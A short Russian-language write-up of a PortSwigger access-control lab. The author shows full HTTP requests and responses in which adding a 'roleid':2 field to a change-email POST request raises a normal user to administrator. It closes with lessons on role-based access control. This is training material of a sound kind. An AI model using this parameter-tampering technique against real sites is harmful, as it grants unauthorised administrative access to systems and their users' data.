


лаба https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile

есть панель администратора по адресу `/admin`
цель - попасть в админку и убрать карлоса

-----

я потыкал сайт и посмотрел всю карту сайта, весь html все запросы
и нашел вот такое интересное




это запрос на смену email
```http\
POST /my-account/change-email HTTP/2
Host: 0a8200c804bad8c181442ac200e60001.web-security-academy.net
Cookie: session=ex0GsbSgWXkmIaTrcpfyRgcx6buUWWtR
...
..
.

{"email":"hacker@bk.ru"}
```

и в ответе получаю

```http
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 116

{
  "username": "wiener",
  "email": "hacker@bk.ru",
  "apikey": "eR70hNNaZcf11f3kFTQUn2ds13yZ76rl",
  "roleid": 1
}
```

внимание привлекает параметр  "roleid": 1

####  "roleid": 1

поэксперементирую с отправкой таких email но пробую добавлять роли

мне везет, раз там есть роль 1 значит и есть роль 2



я отправил тот же запрос но добавил роль параметр

```http
POST /my-account/change-email HTTP/2
Host: 0a8200c804bad8c181442ac200e60001.web-security-academy.net
Cookie: session=ex0GsbSgWXkmIaTrcpfyRgcx6buUWWtR
...

{"email":"hacker2@bk.ru",
"roleid":2}
```

и ответ

```http
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 117

{
  "username": "wiener",
  "email": "hacker2@bk.ru",
  "apikey": "eR70hNNaZcf11f3kFTQUn2ds13yZ76rl",
  "roleid": 2
}
```

и тем самым получил доступ к админке

---------
### лаба решена!

## вывод
в этой лабе не сделали доступ к админ функционалу через токены и куки
из-за чего - любой чел мог создать себе акк с ролью админа, вертикально эскалироваться 

еще, имея роль обычного юзера, получилось добавить доп параметр в post запросе, чего не должно быть... нельзя чтобы были одни и теже апишки с параметрами для всех типов юзеров

должно быть ограничение доступа к конкретным URL-адресам и методам HTTP в зависимости от роли пользователя

----
